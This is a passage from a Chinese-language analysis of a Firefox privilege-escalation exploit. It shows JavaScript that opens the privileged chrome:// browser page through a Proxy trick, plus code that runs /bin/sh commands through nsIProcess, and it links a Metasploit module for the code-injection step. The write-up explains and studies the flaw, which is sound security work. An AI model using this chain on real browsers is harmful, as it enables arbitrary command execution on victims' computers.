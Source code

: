 0x02 突破点
========

* * *

作者后来做了如下尝试：

```
var props = {};  
props['has'] = function(){  
  var chromeWin = open("chrome://browser/content/browser.xul", "x")();  
};  
document.__proto__ = Proxy.create(props)  

```

惊奇的发现，当我们在Proxy中，尝试打开一个特权页面“chrome://browser/content/browser.xul”的时候，居然只是弹出了“阻止窗口弹出”的提醒。这说明特权页面是可以被轻易打开的，这个提醒也可以通过点击页面的方式绕过。

0x03 chrome:意味着什么
=================

* * *

我们能够打开一个域为chrome://browser/content/browser.xul的页面，以为着什么？

火狐和其他很多浏览器一样，都有自己的特权域。不同的URI schemes意味着不同的权限。Chromium的特权域是chrome://downloads，Safari的是file://。Firefox的特权域是chrome://，只要在这个域下的javascript拥有浏览器的最高权限。所以我们能用这样的javascript干很多事，比如执行shell命令。

你可以试着打开chrome://browser/content/browser.xul并在控制台下执行如下代码（linux/osx）：

```
function runCmd(cmd) {  
    var process = Components.classes["@mozilla.org/process/util;1"]  
              .createInstance(Components.interfaces.nsIProcess);  
    var sh = Components.classes["@mozilla.org/file/local;1"]  
            .createInstance(Components.interfaces.nsILocalFile);  
    sh.initWithPath("/bin/sh");  
    process.init(sh);  
    var args = ["-c", cmd];  
    process.run(true, args, args.length);  
}  
runCmd("touch /tmp/owned"); 

```

执行后，可以发现/tmp/owned已经创建，touch命令执行成功。

所以，一旦攻击者能够将代码注入到这个页面，就可以执行任意命令了。

0x04 注入代码
=========

* * *

那么怎么注入代码到这个页面？

众所周知，浏览器同源策略（SOP）将不会允许我们在http://attacker域下注入代码到chrome://browser域下。非常幸运的是，作者以前就做过类似的研究：[LINK](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/browser/firefox_webidl_injection.rb)
